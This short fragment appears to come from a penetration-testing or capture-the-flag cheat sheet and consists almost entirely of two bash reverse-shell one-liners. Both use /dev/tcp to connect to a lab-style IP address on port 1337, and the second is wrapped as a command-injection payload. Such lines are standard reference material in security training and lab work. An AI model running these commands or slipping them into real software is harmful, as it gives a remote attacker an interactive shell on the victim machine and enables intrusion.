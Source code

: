 ```
/bin/bash -i >& /dev/tcp/10.10.14.106/1337 0>&1
```

e.g. if code injection is possible:
```
$(bash -c '/bin/bash -i >& /dev/tcp/10.10.14.211/1337 0>&1')
```
